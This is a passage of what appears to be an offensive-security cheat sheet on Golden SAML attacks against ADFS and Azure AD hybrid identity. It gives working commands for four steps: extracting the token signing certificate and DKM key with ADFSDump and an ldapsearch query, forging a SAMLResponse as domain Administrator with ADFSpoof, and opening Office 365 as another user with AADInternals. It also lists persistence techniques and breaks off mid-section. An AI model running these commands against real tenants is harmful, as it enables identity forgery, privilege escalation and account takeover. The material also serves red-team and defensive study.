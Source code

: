 With **AADInternals**, access cloud app as the user:

```powershell
Open-AADIntOffice365Portal -ImmutableID <ImmutableID> -Issuer http://corp.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

With DA privs on-prem, it is possible to create **ImmutableID** of cloud only users. Create a realistic ImmutableID:

```powershell
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```

Then, same steps to access.

Without DA privs but with the `adfs_svc` account (service account normally presents on any ADFS server) it is also possible to extract the **token signing certificate** and the DKM key (needed to decipher the blob) with **ADFSDump**:

```powershell
./ADFSDump.exe
```

If the DKM key can't be extracted automatically, it is possible to retrieve it manually in LDAP:

```bash
ldapsearch -x -h 192.168.20.10 -D 'domain\adfs_svc' -W -b "DC=DOMAIN,DC=LOCAL" |grep 'CN=ADFS,CN=Microsoft,CN=Program Data,DC=domain,DC=local' |grep 'thumbnailPhoto'
```

Then, **ADFSpoof** can be used to forge a `SAMLResponse`:

```bash
python3 ADFSpoof.py -b blob.bin key.bin -s adfs.domain.local saml2 --endpoint "https://servicedesk.domain.local/SamlResponseServlet" --nameidformat "urn:oasis:names:tc:SAML:2.0:nameid-format:transient" --nameid "domain\Administrator" --rpidentifier "ME_29472ca9-86f2-4376-bc09-c51aa974bfef" --assertions '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier"><AttributeValue>domain\Administrator</AttributeValue></Attribute>'
```

Once the token is generated, we can authenticate on the SAML as `adfs_svc`, with Burp we intercept the requests and the one to `/SamlResponseServlet` containing the `SAMLResponse` is modified to pass the forged token.

### Persistence

#### Hybrid Identity

If the Azure AD Connect server is joined to the on-prem AD, techniques like Golden and Silver Tickets, ACL backdoors, etc on the on-prem that provide admin access to the server provide GA access to Azure AD:

* PHS: extract creds
* PTA: install agent
* Federation: Golden SAML

**PTA & PHS**

If _self service password reset_ is enabled in Azure AD and the reset is propaged from Azure AD to on-prem AD:
